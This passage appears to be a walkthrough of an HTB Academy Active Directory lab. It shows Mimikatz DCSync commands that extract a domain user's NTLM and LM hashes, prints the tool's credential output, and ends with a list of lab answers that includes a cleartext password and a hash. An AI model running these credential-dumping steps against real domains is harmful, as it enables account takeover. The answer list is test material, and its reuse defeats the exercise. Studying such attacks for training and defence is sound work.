 **2. Mimikatz DCSync khartsfield:**
```powershell
# Navigate to Mimikatz (if not already there)
cd C:\Tools\mimikatz\x64\
.\mimikatz.exe
```

**3. Extract khartsfield Hash:**
```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\khartsfield
```

**Real Lab Output:**
```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\khartsfield

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\khartsfield' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Kim Hartsfield

** SAM ACCOUNT **

SAM Username         : khartsfield
User Principal Name  : khartsfield@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 10:37:03 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1138
Object Relative ID   : 1138

Credentials:
  Hash NTLM: 4bb3b317845f0954200a6b0acc9b9f9a
    ntlm- 0: 4bb3b317845f0954200a6b0acc9b9f9a
    lm  - 0: 6d57ae87ad6df46fd47e67f5cbbf17ad

<SNIP>
```

**🎯 Answer: `4bb3b317845f0954200a6b0acc9b9f9a`**

---

## 📋 **HTB Academy Lab Summary**

### **Verified Lab Answers:**
1. **User with reversible encryption**: `syncron`
2. **syncron cleartext password**: `Mycleart3xtP@ss!`
3. **khartsfield NTLM hash**: `4bb3b317845f0954200a6b0acc9b9f9a`
